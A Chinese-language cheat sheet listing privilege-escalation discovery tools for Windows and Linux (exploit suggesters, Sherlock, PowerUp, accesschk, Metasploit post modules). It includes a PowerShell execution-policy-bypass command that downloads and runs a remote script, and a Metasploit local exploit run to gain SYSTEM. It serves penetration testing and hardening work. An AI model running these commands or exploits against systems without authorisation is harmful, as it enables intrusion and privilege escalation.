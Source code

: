 网络安全
<a name="p25ou"></a>
## 常用的提权扫描辅助工具总结
<a name="a2vcN"></a>
### 使用Windows-Exploit-Suggester解析systeminfo
下载地址：[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
```bash
./windows-exploit-suggester.py
```
<a name="K3zH2"></a>
### 使用Linux-Exploit-Suggester.sh寻找linux提权问题
下载地址：[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
```bash
./linux-exploit-suggester.sh
```
<a name="N83uv"></a>
### 使用Sherlock工具
下载地址：[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)
```bash
Import-Module Sherlock.ps1
Find-AllVulns
```
<a name="yXuwy"></a>
### 使用MSF查询补丁和可利用提权漏洞
```bash
#查询补丁

meterpreter> run post/windows/gather/enum_patches 
[+] KB2999226 installed on 11/25/2020
[+] KB976902 installed on 11/21/2010

#查询Exp

msf> use post/multi/recon/local_exploit_suggester 
msf> set LHOST <攻击机IP>
msf> set SESSION <session_id>
msf> run

# 使用示例

msf> use exploit/windows/local/cve_2019_1458_wizardopium 
msf> set SESSION <session_id>
msf> run
meterpreter> getuid
Server username: NT AUTHORITY\SYSTEM
```
<a name="Uc55e"></a>
### 使用powerup检查提权漏洞
```bash
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
powershell.exe -nop -exec bypass -c "IEX (New-object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"
```
<a name="dd9Lc"></a>
### 使用accesschk.exe对系统扫描发现高权限可执行程序，且能够被低权限用户更改
<a name="SC8Ey"></a>
#### 查看所有用户在d盘dir路径的子路径的权限
```bash
accesschk "d:\dir"
```
<a name="mDumq"></a>
#### 查看Administrator用户在d盘dir路径的子路径的权限
```bash
accesschk "Administrator "d:\dir"
```
<a name="DYAEU"></a>
#### 查看Administrators组对所有服务的权限
```bash
accesschk Administrators -c *
```
<a name="AkrK0"></a>
#### 查看Guest用户对hklm\software注册表的权限
```bash
accesschk -k Guest hklm\software
```
<a name="ZCvgh"></a>
#### 查看User用户对全局对象的权限
```bash
accesschk -ou User
```
<a name="Mvdrj"></a>
### 查找主机上具有的CVE，查找具有公开EXP的CVE的Python脚本
下载地址：[https://github.com/chroblert/WindowsVulnScan](https://github.com/chroblert/WindowsVulnScan)
```bash
.\KBCollect.ps1
python3 -m pip install requirements.txt
cve-check.py -u
```
查看具有公开EXP的CVE
```bash
cve-check.py -C -f KB.json
```
<a name="AVN4P"></a>
### 在线提权漏洞检测平台
极光无限出品的安全扫描仪，在提权方面，基于其强大的安全检测能力，能够给出专业的修复建议，有效验证和加固网络资产漏洞。<br />查询地址：[https://detect.secwx.com/](https://detect.secwx.com/)
<a name="BoWnQ"></a>
### 提权辅助网页
在Windows提权的时候，对比补丁找Exp很烦吧？这个网站数据源每周更新一次，值得推荐<br />查询地址：[http://bugs.hacking8.com/tiquan/](http://bugs.hacking8.com/tiquan/)

